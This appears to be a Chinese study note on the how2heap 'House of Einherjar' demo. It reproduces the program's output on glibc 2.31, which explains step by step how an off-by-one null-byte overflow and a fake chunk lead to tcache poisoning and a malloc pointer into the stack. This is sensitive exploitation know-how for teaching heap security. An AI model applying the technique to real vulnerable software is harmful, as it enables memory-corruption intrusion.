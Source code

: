 

## house _of_einherjar

![image-20240722000255028](My_how2heap\images\image-20240722000255028.png)

how2heap的详细教程

```
➜  glibc-2.31 ./house_of_einherjar 
Welcome to House of Einherjar 2!
Tested on Ubuntu 20.04 64bit (glibc-2.31).
This technique can be used when you have an off-by-one into a malloc'ed region with a null byte.
This file demonstrates a tcache poisoning attack by tricking malloc into
returning a pointer to an arbitrary location (in this case, the stack).

The address we want malloc() to return is 0x7ffca24e0be0.

We allocate 0x38 bytes for 'a' and use it to create a fake chunk

We create a fake chunk preferably before the chunk(s) we want to overlap, and we must know its address.
We set our fwd and bck pointers to point at the fake_chunk in order to pass the unlink checks
Our fake chunk at 0x5624123092a0 looks like:
prev_size (not used): 0
size: 0x60
fwd: 0x5624123092a0
bck: 0x5624123092a0

We allocate 0x28 bytes for 'b'.
This chunk will be used to overflow 'b' with a single null byte into the metadata of 'c'
After this chunk is overlapped, it can be freed and used to launch a tcache poisoning attack.
b: 0x5624123092e0
Since we want to overflow 'b', we need the 'real' size of 'b' after rounding: 0x28

We allocate 0xf8 bytes for 'c'.
c: 0x562412309310

c.size: 0x101
c.size is: (0x100) | prev_inuse = 0x101
We overflow 'b' with a single null byte into the metadata of 'c'
c.size: 0x100
It is easier if b.size is a multiple of 0x100 so you don't change the size of b, only its prev_inuse bit

We write a fake prev_size to the last 8 bytes of 'b' so that it will consolidate with our fake chunk
Our fake prev_size will be 0x562412309300 - 0x5624123092a0 = 0x60

Make sure that our fake chunk's size is equal to c's new prev_size.
Our fake chunk size is now 0x60 (b.size + fake_prev_size)

Fill tcache.
Fill up tcache list.
Now we free 'c' and this will consolidate with our fake chunk since 'c' prev_inuse is not set
Our fake chunk size is now 0x161 (c.size + fake_prev_size)

Now we can call malloc() and it will begin in our fake chunk
Next malloc(0x158) is at 0x5624123092b0
After the patch https://sourceware.org/git/?p=glibc.git;a=commit;h=77dc0d8643aa99c92bf671352b0a8adde705896f,
We have to create and free one more chunk for padding before fd pointer hijacking.

Now we free chunk 'b' to launch a tcache poisoning attack
```